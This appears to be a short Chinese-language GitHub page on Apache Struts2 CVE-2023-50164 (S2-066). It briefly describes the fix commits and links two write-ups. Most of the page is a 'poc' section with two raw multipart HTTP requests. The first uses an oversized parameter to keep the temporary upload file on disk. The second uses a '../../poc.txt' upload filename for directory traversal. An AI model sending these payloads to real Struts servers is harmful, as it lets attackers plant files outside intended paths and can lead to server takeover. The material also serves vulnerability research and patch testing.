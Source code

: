 ## Apache Struts2 CVE-2023-50164

漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；

## 漏洞复现分析
- https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
  
## poc
```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
 
 
{{randstr(4097,4097)}}
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--
```


```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";
 
../../poc.txt
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--

```
